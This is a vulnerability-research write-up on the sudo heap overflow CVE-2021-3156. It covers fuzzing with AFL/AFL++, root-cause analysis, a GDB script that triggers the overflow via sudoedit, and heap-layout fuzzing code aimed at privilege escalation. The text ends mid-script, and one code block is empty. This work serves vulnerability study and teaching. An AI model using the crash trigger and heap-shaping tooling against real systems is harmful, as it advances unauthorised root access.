# CVE-2021-3156 - Heap-based Buffer Overflow in sudo for Privilege Escalation

## Summary

This document describes my discovery, analysis, and exploitation approach for CVE-2021-3156, a heap-based buffer overflow in `sudo` that can lead to local privilege escalation. It summarizes the fuzzing setup, the debugging and validation process, and the high-level exploit strategy I used while studying the bug.

## The Fuzzing Way

### I. Fuzzing with AFL

I found a useful AFL header for fuzzing command-line arguments:

[https://github.com/google/AFL/blob/master/experimental/argv_fuzzing/argv-fuzz-inl.h](https://github.com/google/AFL/blob/master/experimental/argv_fuzzing/argv-fuzz-inl.h)

First, I made sure the generated argument list started from `argv[0]`:

```c
char* ptr = in_buf;
int   rc  = 0; /* start from argv[0] */
```

Then I fixed a potential overflow bug in the argument parsing loop:

```c
while (*ptr) {

  // fix buffer overflow
  if(rc >= MAX_CMDLINE_PAR) {
    break;
  }

  ret[rc] = ptr;
}
```

After that, I included this `.h` file in the sudo source code:

```c
#include "sudo.h"
#include "sudo_plugin.h"
#include "sudo_plugin_int.h"
#include "argv-fuzz-inl.h"

/*
 * Local variables*/
int main(int argc, char *argv[], char *envp[])
{
    AFL_INIT_ARGV();
    int nargc, ok, status = 0;
    char **nargv, **env_add;
    char **user_info, **command_info, **argv_out, **user_env_out;
```

I also hardcoded the UID/GID values so the target would behave like it was being run by a normal user:

```c
ud->uid = 1000; //getuid();
ud->euid = geteuid();
ud->gid = 1000; //getgid();
ud->egid = getegid();
```

Then I configured and built the binary:

```bash
./configure --disable-shared
```

After that, I started fuzzing with AFL:



As shown above, AFL produced a lot of timeouts. The original AFL was not very convenient for this target, even though `argv-fuzz-inl.h` worked. Because of that, I decided to switch to AFL++.

### II. Switching to AFL++



AFL++ worked much better. There were no timeouts, but even after around 18 hours, I still did not get a crash. At that point, I realized that the problem was probably my test case.

My original test case was basically:

```text
sudoedit\x00\x00
```

That was too weak. It did not cover enough of the valid `sudoedit` argument space. The actual usage shows that `sudoedit` accepts many different options:

```text
usage: sudoedit -h | -V
usage: sudoedit [-ABknS] [-r role] [-t type] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory]
                [-T timeout] [-u user] file ...
```

So I added more test cases. After about a minute, AFL++ finally found a crash:



I also think that if I had prepared the right test cases earlier, normal AFL could also have reproduced the crash. It actually did once, but unfortunately I forgot to take a screenshot. After resetting my Docker container, I lost that result.

The lesson here is simple: bad test cases waste a lot of fuzzing time. Preparing a proper seed corpus matters.

### III. Using ASan to Rediscover the Bug

Thanks to this fuzzing tutorial:

[https://fuzzing-project.org/tutorial2.html](https://fuzzing-project.org/tutorial2.html)

I was able to save a lot of time when setting up ASan and rediscovering the bug. From this task, I learned several important things: how to fuzz a binary, how to choose better test cases, how to set up the fuzzing environment, and how to start approaching a real bug from a research perspective.



## Reaching the Crash

### I. Code Review

The vulnerable code:



The bug is conceptually simple, but it is not obvious when looking at the C source code for the first time. Looking at the assembly makes the logic easier to understand:



Here, `r14` and `r15` hold pointers to the input strings. `r15` is advanced to dereference the next character. The program compares the current character with `\`. If `r15` points to a backslash, the program skips the character after it.

The problem happens when the backslash is the last character of a string. In that case, the null byte after the backslash is skipped. As a result, the program continues copying data from the next argument instead of stopping at the end of the current string. This eventually causes a heap overflow.

```bash
pwndbg> bt
#0  set_cmnd () at ./sudoers.c:864
#1  sudoers_policy_main (argc=argc@entry=2, argv=argv@entry=0x7ffeaa32dd10, pwflag=pwflag@entry=0, env_add=env_add@entry=0x0, verbose=verbose@entry=false, closure=closure@entry=0x7ffeaa32da20) at ./sudoers.c:306
#2  0x000059d883558437 in sudoers_policy_check (argc=2, argv=0x7ffeaa32dd10, env_add=0x0, command_infop=0x7ffeaa32da98, argv_out=0x7ffeaa32daa0, user_env_out=0x7ffeaa32daa8) at ./policy.c:872
#3  0x000059d883533426 in policy_check (plugin=0x59d8835af800 <policy_plugin>, user_env_out=0x7ffeaa32daa8, argv_out=0x7ffeaa32daa0, command_info=0x7ffeaa32da98, env_add=0x0, argv=0x7ffeaa32dd10, argc=2) at ./sudo.c:1138
#4  main (argc=argc@entry=3, argv=argv@entry=0x7ffeaa32dd08, envp=0x7ffeaa32dd28) at ./sudo.c:253
#5  0x00007879457df083 in __libc_start_main (main=0x59d883532af0 <main>, argc=3, argv=0x7ffeaa32dd08, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffeaa32dcf8) at ../csu/libc-start.c:308
#6  0x000059d88353484e in _start () at ./sudo.c:735
pwndbg>

```

### II. Validating the Bug

I used the following script to attach GDB to the process and break at the relevant source lines:

```python
import os, subprocess, signal

open("/tmp/g.gdb", "w").write(
"""
        set breakpoint pending on
        b /pwd/sudo-1.8.31p2/plugins/sudoers/sudoers.c:868
        b /pwd/sudo-1.8.31p2/plugins/sudoers/sudoers.c:872
        continue
        continue
        continue

        heap
""")

p = subprocess.Popen(
    args=['/usr/bin/sudoedit', '-s', 'A' * 0x20 + '\\'],
    env={"BBBBBBBBBBBBBBBB": "CCCCCCCCCCCCCCCC"})
p.send_signal(signal.SIGSTOP)


os.execvp("gdb", [
        "gdb",
        "-q",
        "-x", "/tmp/g.gdb",
        "-p", str(p.pid)
])
```

At this point, we can confirm that the overflow is real. The argument ending with a backslash causes the copy loop to skip the null terminator and continue copying data past the end of the allocated user_args chunk.

This gives us a controlled heap overflow primitive. In this test case, the overflow reaches the metadata of the next heap chunk, including the chunk size field.



## Exploit Strategy

Before trying to exploit the bug, I first had to decide which direction made the most sense.

For heap exploitation, there are usually two main strategies. The first one is attacking the heap allocator itself. This means corrupting heap metadata, such as chunk sizes, flags, forward pointers, backward pointers, fastbin lists, tcache entries, and similar internal allocator structures. This is the common style in many heap CTF challenges.

However, this approach usually requires good control over the allocation and free order. In a typical CTF menu challenge, we can create, delete, and edit chunks many times, so we can shape the heap exactly how we want. But this sudo bug is different. Here, we only get a single-shot heap overflow. There is no menu, no repeated interaction, no second chance, and no easy leak to defeat ASLR first. With one overflow, the exploit has to work immediately.

Because of that, attacking the heap allocator metadata directly looked unrealistic to me. I do not want to say it is impossible, because heap exploitation often has strange tricks, but I did not know any reasonable allocator-level technique that fit this situation.

So I focused on the second strategy: attacking data stored on the heap.

The idea is simple. Since we have a heap overflow, maybe we can overwrite useful data in a nearby heap chunk. If the corrupted data is later used by the program, the side effect may give us control. For example, if there is a function pointer after our buffer, and the program calls it later, overwriting that pointer could give us control of RIP. ASLR is still a problem, but even a partial overwrite or a controlled crash would already be a big step forward.

The next question is: how do we find useful data after our buffer?

This is not obvious. Looking at raw heap memory in GDB only gives us bytes, pointers, strings, and chunks. We still need to understand what those values mean. Some chunks may contain paths. Some may contain environment variables. Some may contain sudo internal structures. Maybe there is a useful function pointer nearby, maybe there is not.

Another important observation is that our overflow buffer is not always placed at the end of the heap. The buffer is allocated right before the overflow happens, but the heap already contains many allocations and freed holes from earlier program execution. That means our buffer may be placed into one of those holes.

Because of this, the size of our argument buffer matters. If we change the length of `argv`, the allocated chunk size changes, and the buffer may land in a different place. Then the chunks after it also change. Environment variables can also affect the heap layout, because sudo stores and processes many environment-related strings and structures on the heap.

This gives us both a problem and an opportunity. The problem is that the exploit may be unstable across different systems. The opportunity is that we may be able to control the heap layout by carefully choosing argument lengths and environment variables.



The first step was to dump memory and look for function pointers or other useful data that could be affected by the overflow.

I wrote a script to scan the heap dump and identify values that looked like code pointers:

```python
vmmap = """
[Paste your vmmap here]
"""

import struct


memmap = []
for mem in vmmap.splitlines():
    if 'r-x' in mem:
        start, end, size, perm, f = mem.split(' ')
        start = int(start, 16)
        end = int(end, 16)
        memmap.append((start, end))

with open('./heap','rb') as f:
    heap = f.read()

n = 0x41

for i in range(0, len(heap), 8):
    heap_addr = i+0x00005555555f0000
    b = heap[i:i+8]
    q = struct.unpack('Q', b)[0]
    for mem in memmap:
        if q>=mem[0] and q<=mem[1]:
            #print(f"0x{heap_addr:016x}: {q:016x} {b}")
            print(f"set *0x{heap_addr:016x} = 0x"+(hex(n)[2:]*5))
            n += 1
    if 0x00005555556131e0 == heap_addr:
            print(f"0x{heap_addr:016x}: our [buffer]")
```

These were the function pointers I found:



Then I ran `check.py`, a script I had written the day before to place the heap into a useful state:

```python

```

This produced a crash:



I am not sure why, but this crash did not happen in my WSL environment. In my VM, it did happen, although I later lost that exact setup because it was running inside a Docker container. Once the Docker container stopped, I could no longer reproduce the same crash.

Still, this crash was useful. It was not a clean exploit crash, but it helped verify that some function pointers on the heap could potentially be reached or influenced. This method cannot find every useful function pointer, but it gave me a concrete direction to continue the exploit development.

Using `bt`, I could see which function triggered the crash:



After that, I patched the binary to find the relevant function pointer and inspect the environment variables:



I also wrote a GDB script to log all calls to `getenv`:

```gdb
#gdb -x gdb.init /usr/bin/sudoedit > envp_var
set breakpoint pending on
break getenv
commands
  silent
  printf "getenv(): %s\n", $rdi
  continue
end

r -s 'YYYYYYYYYYYYYYYYY\'
```

However, it crashed, and I am still not sure why:



After a while, I remembered that I had already stored all my logs in `trace`. I read that log again and recovered the environment variables that could be useful for shaping the heap during exploitation.



At this point, I think it is time to write a script to fuzz the heap layout. What I want to do is keep changing the heap arrangement until our buffer gets placed close to a useful function pointer. If that happens, our overflow may be able to corrupt the pointer and give us control over the execution flow.

```bash
huhu@calonnuotcabe:~/cve/cve-2021-3156-lab$ python3 heap.py
set *0x000055555560b4b8 = 0x4141414141
set *0x000055555560b4c0 = 0x4242424242
set *0x000055555560be18 = 0x4343434343
set *0x000055555560be20 = 0x4444444444
set *0x000055555560ee00 = 0x4545454545
set *0x000055555560eeb0 = 0x4646464646
set *0x000055555560f4f0 = 0x4747474747
set *0x000055555560f5a0 = 0x4848484848
set *0x000055555560fd48 = 0x4949494949
set *0x000055555560fd68 = 0x4a4a4a4a4a
set *0x000055555560fd88 = 0x4b4b4b4b4b
set *0x000055555560fda8 = 0x4c4c4c4c4c
set *0x000055555560fea8 = 0x4d4d4d4d4d
set *0x0000555555611850 = 0x4e4e4e4e4e
set *0x0000555555611dc0 = 0x4f4f4f4f4f
0x00005555556131e0: our [buffer]
```

Right now, as shown above, my buffer is near the bottom of the heap layout. But the heap can change very quickly depending on the argument sizes, environment variables, and allocation history. So there may be a moment where the heap layout becomes perfect for us: our buffer lands right before something useful, and the overflow can reach it.

And this is where my heap-fuzzing adventure began.

I started with a simple fuzzing script. At this stage, I only fuzzed a few controllable inputs: the size of our overflowing buffer, the `HOSTNAME` environment variable, and one random extra environment variable. The goal was not to build the final exploit immediately, but to observe how small changes in `argv` and `envp` affected the heap layout.

The script randomly chooses argument sizes, environment sizes, and sudo flags. It then runs `sudoedit -s` with an argument ending in a backslash, which is the shape needed to trigger the overflow. My patched sudo binary prints the addresses of `user_args` and several interesting function pointers. The script parses those addresses and checks whether `user_args` is placed before any of those pointers.

If the distance is small enough, the testcase is saved into a log file. If the program crashes with a segmentation fault, the testcase is saved separately under the crash folder. This way, I could collect interesting heap layouts and later inspect them manually in GDB.

```python
import subprocess
import time
import select
import random
import os
import json
from pathlib import Path

seed = time.time()
print(seed)
random.seed(seed)

FOLDER = 'fengshui'


# define some common size values usable for different inputs
_SIZES = [i for i in range(0,0xff)]
_SIZES += [2**i for i in range(0,15)]
_SIZES += [(2**i)+1 for i in range(0,15)]
_SIZES += [(2**i)-1 for i in range(0,15)]
_SIZES += ([0]*50)

# define some flags from sudo -h
ARG1 = ["-A","-B","-E","-e","-H","-K","-k","-l","-n","-P","-S","-s"]
ARG1 += [None, None, None, None, None, None, None]
ARG2 = _SIZES
ARG3 = _SIZES
HOSTNAME = _SIZES
ENV = _SIZES

# dump a testcase into a logfile
def dump_file(fname, lines, ptrs, arg, env, key):
    # create the folders if they don't exist
    directory = os.path.dirname(fname)
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # don't write the dump file if it's already too large
